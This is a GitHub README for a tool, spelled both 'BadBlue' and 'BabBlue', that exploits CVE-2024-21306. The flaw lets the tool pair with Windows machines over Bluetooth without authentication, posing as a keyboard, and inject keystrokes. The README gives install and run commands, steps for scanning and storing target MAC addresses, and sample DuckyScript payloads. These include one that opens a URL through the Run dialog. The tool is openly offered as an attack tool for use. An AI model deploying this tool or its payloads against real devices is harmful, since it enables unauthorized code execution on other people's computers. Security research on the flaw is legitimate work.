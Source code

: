 # BadBlue (Windows)


CVE-2024-21306 BadBlue implementation (Using DuckyScript)

Unauthenticated Peering Leading to Code Execution (Using HID Keyboard)

[This is an implementation of the CVE discovered by marcnewlin](https://github.com/marcnewlin/hi_my_name_is_keyboard)

[And BlueDucky](https://github.com/pentestfunctions/BlueDucky)

## Introduction
BabBlue is a powerful tool for exploiting a vulnerability in Bluetooth devices. By running this script, you can:

1. Load saved Bluetooth devices that are no longer visible but have Bluetooth still enabled.
2. Automatically save any devices you scan.
3. Send payload via ducky script format to interact with devices.

I've successfully run this on any Raspberry Pi 4 and VirtualBox using the CRS 4.0, ORICO 4.0,.. Bluetooth module. It works against various Windows with version lower .3007 .

## Installation and Usage

### Setup Instructions

```bash
# update apt
sudo apt-get update
sudo apt-get -y upgrade

# install dependencies from apt
sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev \
                    git gcc python3-pip python3-setuptools \
                    python3-pydbus dbus-x11

# install pybluez from source
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install

# build bdaddr from the bluez source
cd ~/
git clone --depth=1 https://github.com/bluez/bluez.git
gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
sudo cp bdaddr /usr/local/bin/
```

## Running BabBlue
```bash
git clone https://github.com/PhucHauDeveloper/BabBlue.git
cd BabBlue
sudo hciconfig hci0 up
python3 BabBlue.py
```
-k is Keyboard(default my keyboard F4:73:35:7A:4B:BB, you need change it)

-i is interface(default hci0)

-c is target windows devices(type blank tool auto scan for you)

## Operational Steps
1. On running, it prompts for the target MAC address.
2. Pressing nothing triggers an automatic scan for devices.
3. Devices previously found are stored in known_devices.txt.
4. If known_devices.txt exists, it checks this file before scanning.
5. Executes using payload.txt file.
6. Successful execution will result in automatic connection and script running.

## Duckyscript
Work in Progress:
- Suggest me ideas

## Know Bug
'/' char can't send


#### Example payload.txt:
```bash
REM Title of the payload
STRING ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()_-=+\|[{]};:'",<.>/?
GUI D
```

```bash
REM Opens RickRoll
DELAY 200
GUI r
DELAY 200
STRING https://www.youtube.com/watch?v=dQw4w9WgXcQ
DELAY 300
ENTER
DELAY 300
```

## Enjoy experimenting with BabBlue!







